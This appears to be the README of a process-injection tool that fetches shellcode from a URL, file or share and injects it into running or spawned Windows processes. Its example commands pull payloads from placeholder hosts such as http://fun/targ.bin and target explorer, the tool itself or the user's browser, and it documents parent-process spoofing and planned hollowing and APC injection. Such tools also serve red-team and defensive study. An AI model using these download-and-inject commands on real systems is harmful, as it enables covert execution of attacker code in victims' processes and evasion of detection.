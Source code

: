 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Runner Help:
    Usage: Runner.exe [options]
    Example: Runner.exe targ=http://fun/targ.bin form=bin meth=simple pid=1000
    Example: Runner.exe targ=C:\path\to\targ.b64 form=b64 meth=simple pid=self
    Example: Runner.exe targ=\\some\share\path\to\targ.b64 form=b64 meth=simple pid=explorer
    Example: Runner.exe targ=https://fun/targ.bin parent=1000 spawn=C:\path\to\custom.exe
    Example: Runner.exe targ=https://fun/targ.bin parent=explorer spawn=notepad.exe
Defaults:
    meth => simple
    form => bin
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever. There is an additional alias called `browser` that attempts to first inject into the user's default browser and then blindly checks for running chrome and IE instances.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable. The spawn argument also has a browser alias that looks for common brower executables.

## Known Issues

- cmd.exe may not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
